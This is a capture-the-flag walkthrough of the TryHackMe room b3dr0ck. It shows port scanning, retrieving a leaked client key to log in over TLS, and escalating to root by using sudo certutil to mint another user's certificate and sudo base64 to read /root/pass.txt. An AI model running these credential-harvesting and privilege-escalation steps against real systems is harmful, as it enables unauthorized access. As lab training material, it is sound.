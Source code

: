 ```yaml
---
title: "b3dr0ck"
date: 2025-02-13
image: /assets/img/tryhackme/Bedrock/Bedrock_image.jpg
description: Writeup of the TryHackMe-CTF b3dr0ck
categories: [Tryhackme, Easy]
tags: [linux, certificates, web, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>b3dr0ck</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Server trouble in Bedrock.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/b3dr0ck">https://tryhackme.com/room/b3dr0ck</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge b3dr0ck.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.58.21                                 
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-13 12:36 EST
  Nmap scan report for 10.10.58.21
  Host is up (0.047s latency).
  Not shown: 65530 closed tcp ports (conn-refused)
  PORT      STATE SERVICE
  22/tcp    open  ssh
  80/tcp    open  http
  4040/tcp  open  yo-main
  9009/tcp  open  pichat
  54321/tcp open  unknown

  Nmap done: 1 IP address (1 host up) scanned in 25.49 seconds
```

From here I proceeded the analysis port by port.

## Port 80 Analysis

Accessing port 80 with a web browser redirects me to port 4040 and showed me the following message:

```text
Welcome to ABC!

Abbadabba Broadcasting Compandy

We're in the process of building a website! Can you believe this technology exists in bedrock?!?

Barney is helping to setup the server, and he said this info was important...

Hey, it's Barney. I only figured out nginx so far, what the h3ll is a database?!?
Bamm Bamm tried to setup a sql database, but I don't see it running.
Looks like it started something else, but I'm not sure how to turn it off...

He said it was from the toilet and OVER 9000!

Need to try and secure connections with certificates...
```

Because of the `OVER 9000` I continued with port `9009`.

## Port 9009 Analysis

The web server timed out, so I tried connecting using `telnet`. The following output has been shortened for better readability:

```bash
$ telnet 10.10.58.21 9009              
Trying 10.10.58.21...
Connected to 10.10.58.21.
Escape character is '^]'.


 __          __  _                            _                   ____   _____ 
 \ \        / / | |                          | |            /\   |  _ \ / ____|
  \ \  /\  / /__| | ___ ___  _ __ ___   ___  | |_ ___      /  \  | |_) | |     
   \ \/  \/ / _ \ |/ __/ _ \| '_ ` _ \ / _ \ | __/ _ \    / /\ \ |  _ <| |     
    \  /\  /  __/ | (_| (_) | | | | | |  __/ | || (_) |  / ____ \| |_) | |____ 
     \/  \/ \___|_|\___\___/|_| |_| |_|\___|  \__\___/  /_/    \_\____/ \_____|
                                                                               
                                                                               


What are you looking for? flag
Sorry, unrecognized request: 'flag'

You use this service to recover your client certificate and private key
What are you looking for? private key
Sounds like you forgot your private key. Let's find it for you...

-----BEGIN RSA PRIVATE KEY-----
[reduced]
-----END RSA PRIVATE KEY-----

What are you looking for? public
Sounds like you forgot your certificate. Let's find it for you...

-----BEGIN CERTIFICATE-----
[reduced]
-----END CERTIFICATE-----
```

I stored the certificates on my machine and continued with the last port.

## Port 54321 Analysis

The webserver gave me the following error message:
```text
Gave me: `Error: 'undefined' is not authorized for access.` Probably we need the cert?
```

That's interesting because we already received a certificate pair. I tried to connect to the server using `openssl` with success:
```bash
$ openssl s_client -connect 10.10.58.21:54321 -cert pubkey -key privkey
```
The output is quite long, so I reduced it for readability:
```bash
 __     __   _     _             _____        _     _             _____        _ 
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)

Welcome: 'Barney Rubble' is authorized.
b3dr0ck> flag
Unrecognized command: 'flag'

This service is for login and password hints
b3dr0ck> password hints 
Password hint: [removed] (user = 'Barney Rubble')
b3dr0ck> login
Login is disabled. Please use SSH instead.
```

After several attempts to crack the string, I decided to use it as a password and successfully connected via `ssh`. 

## Privilege Escalation Fred

Because I have a valid username and password pair I was able to execute `sudo -l`:

```bash
$ sudo -l
[sudo] password for barney: 
Matching Defaults entries for barney on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User barney may run the following commands on b3dr0ck:
    (ALL : ALL) /usr/bin/certutil
```

There is likely a certificate stored for Fred:

```bash
barney@b3dr0ck:~$ cat /etc/passwd | grep fred
	fred:x:1000:1000:Fred Flintstone:/home/fred:/bin/bash
barney@b3dr0ck:~$ sudo certutil fred "Fred Flintstone"
  Generating credentials for user: fred (Fred Flintstone)
  Generated: clientKey for fred: /usr/share/abc/certs/fred.clientKey.pem
  Generated: certificate for fred: /usr/share/abc/certs/fred.certificate.pem
-----BEGIN RSA PRIVATE KEY-----
[reduced]
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
[reduced]
-----END CERTIFICATE-----

```

Let's apply the same approach used for Barney's certificate:

```bash
$ openssl s_client -connect 10.10.58.21:54321 -cert pubkey2 -key privkey2
 __     __   _     _             _____        _     _             _____        _ 
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)

Welcome: 'Fred Flintstone' is authorized.
b3dr0ck> hint
Password hint: [removed] (user = 'Fred Flintstone')
b3dr0ck> login
Login is disabled. Please use SSH instead.
b3dr0ck>

$ ssh fred@10.10.58.21            
fred@10.10.58.21's password: 
fred@b3dr0ck:~$
fred@b3dr0ck:~$ cat fred.txt 
THM{[removed]}
```

## Privilege Escalation root
I started with `sudo -l` and got the following output:
```bash
red@b3dr0ck:~$ sudo -l
Matching Defaults entries for fred on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on b3dr0ck:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt
```

I then proceeded to execute the `base64` command with sudo:

```bash
fred@b3dr0ck:~$ sudo /usr/bin/base64 /root/pass.txt | base64 -d
[removed]
```

At this point, I used `CyberChef` and `Crackstation` to analyze the string:

![Root Password](/assets/img/tryhackme/Bedrock/thm_bedrock_1.jpg)

```bash
fred@b3dr0ck:~$ su root
	Password: 
root@b3dr0ck:/home/fred# cd /root
root@b3dr0ck:~# ls
	pass.txt  root.txt  snap
root@b3dr0ck:~# cat root.txt
THM{[removed]}
```

solved! :)
